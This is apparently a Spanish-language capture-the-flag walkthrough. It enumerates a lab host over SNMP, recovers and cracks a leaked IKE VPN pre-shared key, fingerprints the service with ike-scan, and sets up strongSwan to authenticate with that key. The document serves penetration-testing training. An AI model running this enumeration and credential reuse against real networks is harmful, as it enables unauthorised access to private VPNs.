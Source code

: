 Bueno, como de antes hemos conseguido la **Community String** correspondiente, podemos ahora intentar dar un paseo con **SNMP** con herramientas como **SnmpBulkWalk** o **SnmpWalk**, en este caso usaremos la primera:
```ruby
# snmpbulkwalk -c plublic -v2c 10.10.10.10
```

Miramos mucha traya, pero encontramos una posible contraseña:
```ruby
[...]
iso.3.6.1.2.1.1.4.0 = STRING: "IKE VPN password PSK - 9C8B1A372B1878851BE2C097031B6E43"
iso.3.6.1.2.1.1.5.0 = STRING: "Conceal"
[...]
```

Lo podemos intentar crackear en **CrackStation**:
![[Pasted image 20230905092759.png]]

----------
#### Enumerating Ike Hosts - ike-scan
Y encontramos una posible contraseña. Como tenemos una contraseña, que de primeras no sabemos para que pueda servir, podemos usarla para intentar autenticarnos al gestor de **VPN** que hay en el puerto 500\\UDP que gestiona **IKE**. Usaremos la herramienta **StrongSwan** para hacer esta tarea. Para hacer uso de este tenemos que colocar el secreto (contraseña) en el archivo **/etc/ipsec.secrets**:
```
# ipsec.secrets - StrongWan IPsec secrets file
%any : PSK "<password>"
```

Con la herramienta **ike-scan** sacaremos un poco más informacion necesaria para conectarnos:
```ruby
# ike-scan 10.10.10.10 -M
Starting ike-scan 1.9.5 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.10.116	Main Mode Handshake returned
	HDR=(CKY-R=14c1d03d65425331)
	SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration(4)=0x00007080)
	VID=1e2b516905991c7d7c96fcbfb587e46100000009 (Windows-8)
	VID=4a131c81070358455c5728f20e95452f (RFC 3947 NAT-T)
	VID=90cb80913ebb696e086381b5ec427b1f (draft-ietf-ipsec-nat-t-ike-02\n)
	VID=4048b7d56ebce88525e7de7f00d6c2d3 (IKE Fragmentation)
	VID=fb1de3cdf341b7ea16b7e5be0855f120 (MS-Negotiation Discovery Capable)
	VID=e3a5966a76379fe707228231e5ce8652 (IKE CGA version 1)

Ending ike-scan 1.9.5: 1 hosts scanned in 0.114 seconds (8.78 hosts/sec).  1 returned handshake; 0 returned notify
```

---------------------
#### Installing and configuring Strongswan (IPSEC/VPN) [ipsec.secret/ipsec.conf]  
Bien, con esta informacion recolectada, podemos adaptar nuestro archivo **/etc/ipsec.conf** para realizar la conexión correctamente:
```ruby
conn conceal
	keyexchange=ikev1
	type=transport
	left=10.10.14.13
	right=10.10.10.10
	auto=add #ondemand start ignore
	authby=secret
	ike=3des-sha1-modp1024
	esp=3des-sha1
	rightsubnet=10.10.10.10[tcp]
```
